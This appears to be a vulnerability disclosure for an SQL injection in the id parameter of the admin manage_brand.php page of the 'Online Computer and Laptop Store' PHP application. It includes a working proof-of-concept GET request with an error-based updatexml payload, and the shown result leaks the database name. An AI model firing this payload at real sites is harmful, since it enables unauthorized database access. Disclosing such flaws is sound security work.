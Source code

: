 Online Computer and Laptop Store has a front-end SQL injection vulnerability

version:v2021

route:/php-ocls/admin/maintenance/manage_brand.php

download:https://www.sourcecodester.com/php/16397/online-computer-and-laptop-store-using-php-and-mysql-source-code-free-download.html

code analysis
The id parameter here can be controlled and directly brought into the SQL statement for execution.

![image](https://github.com/Hefei-Coffee/cve/assets/168982375/13e9ec02-02e5-4b31-84b8-d95ad9e32dc7)


POC
```
GET /php-ocls/admin/maintenance/manage_brand.php?id=1%27%20and%20updatexml(1,concat(0x7e,(database())),3)--%20q HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:125.0) Gecko/20100101 Firefox/125.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
X-Forwarded-For: 192.168.1.23
```
![image](https://github.com/Hefei-Coffee/cve/assets/168982375/e6a575be-ded0-4842-888e-8edf73786840)
Get the database name: ocls_db
